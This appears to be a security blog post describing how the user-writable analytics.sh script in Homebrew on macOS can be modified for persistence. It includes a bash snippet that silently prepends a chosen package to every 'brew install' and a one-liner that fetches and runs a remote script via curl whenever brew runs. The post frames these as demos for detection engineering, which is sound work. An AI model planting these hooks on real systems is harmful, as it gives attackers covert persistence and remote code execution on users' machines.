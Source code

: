 ```yaml
---
author: noncetonic
layout: post
title: HomeBrood 0x00 - Surreptitious hijacking of Homebrew on macOS
tags: [MacOS, Persistence]
---
```


## Foreward 

I thought it might be fun to poke at Homebrew and see what kind of things I could find. Welcome to the beginning of what I hope will be a small but fun series of posts on abusing HomeBrew.

HomeBrood 0x00

## Homebrew Analytics

By default, `homebrew` is set to phone home to Google Analytics over HTTPS and provide a number of known, documented, metadata strings claimed by the Homebrew team to help maintainers and as such "leaving it on is appreciated".

The more paranoid-inclined user seeking to cut down on the data they freely hand over to Google and other analytic companies may already know to disable analytics right after installing homebrew and before going off and installing packages. Unfortunately, as will be shown homebrew analytics can be far more dangerous than it would appear.

Check out https://github.com/Homebrew/brew/blob/master/docs/Analytics.md to read more about the information gathered by Homebrew Analytics and how to disable this feature or just run `brew analytics off` to disable Homebrew Analytics if `brew analytics` does not return "Analytics is disabled."

### Analytricks

Reading through `/usr/local/Homebrew/Library/Homebrew/brew.sh` reveals an interesting opportunity for a number of possible scenarios for attacks but a basic example of persistence will be provided here to keep with the context of this file.

```
# Don't need shellcheck to follow this `source`.
# shellcheck disable=SC1090
source "$HOMEBREW_LIBRARY/Homebrew/utils/analytics.sh"
setup-analytics
```
> From `/usr/local/Homebrew/Library/Homebrew/brew.sh`

First and foremost the `$HOMEBREW_LIBRARY/Homebrew/utils/analytics.sh` file (full, expanded path `/usr/local/Homebrew/Library/Homebrew/utils/analytics.sh`) is sourced blindly without attempting to ensure the file even exists and then proceeds to run the newly exported `setup-analytics` function donated by analytics.sh. This means that even when Homebrew Analytics has been explicitly disabled on a system it is not until after all code within `analytics.sh` is run that Homebrew checks whether or not analytics should be sent.

It's simple to see how easily the user-owned, user-writeable `analytics.sh` file can be abused by simply adding commands to the end of the `analytics.sh` file or within the  `setup-analytics` function, hell you're free to write your own bash script altogether and including an empty setup-analytics function to keep from causing an error. This all happens pretty early on in the logic for subcommands of the `brew` command; shortly after determining the subcommand and well before processing package names and subcommand options are slurped in for processing. This makes it possible to pass a malicious package name during a `brew install` command in addition to running just about anything you want.

Let's explore some of these attacks and their implementation.

#### Hijacking `brew install`

Add the following tiny modification at the bottom of the `analytics.sh` file

```
# Prepend a defined package to all invocations of `brew install`
if [[ "$HOMEBREW_COMMAND" = "install" ]]
then
  set "YOUR_DESIRED_PACKAGE_HERE" "$@"
fi
```

Nice and easy. As the `analytics.sh` file is sourced into `brew.sh` we are lucky enough to have access to the `$HOMEBREW_COMMAND` variable which holds the subcommand sent to the `brew` command as well as `$@` which contains the arguments passed to the subcommand.

Presumably the possibly most esoteric bit of code here for beginner BASH scripters is the line starting with `set`.  
The `set` command allows rearranging the order of the arguments passed on the commandline and in this example simply prepends whichever package you choose  to the list of arguments the user provided which ensures our desired package is installed first and can hopefully get lost in the wall of text generated during a `brew install`.

This same concept can be applied to run any commands you want, you are not limited to simply brew commands. For example if you'd just like to have a compromised host send a request to a server wehenever `brew` is run as a way of gaining access to the network in case of being forcefully ejected from the network or just because networks are hard a simple script could be written which sends a GET request to a remotely hosted file and executing any commands within that file.

```
bash <(curl -s https://gist.githubusercontent.com/n0ncetonic/1d965369574a413b4dd1e4514e27992a/raw/675a9546c6ecdb46ce5a6b13a7faf63428359e53/example.sh)
```

Adding this simple one-liner into `analytics.sh` will cause the contents of the remote file to be run whenever `brew` is run.

## Closing

These PoCs are intended to be used as demos in aiding teams attempting to write detections around TTPs which could be leveraged by threat actors to avoid triggering common persistence detection checks . The potential for far more complex payloads which take advantage of this Technique are the responsibility of the reader to create.

If you do happen to come up with something fun that takes advantage of this simple `brew` command hijack please let me know via twitter @noncetonic

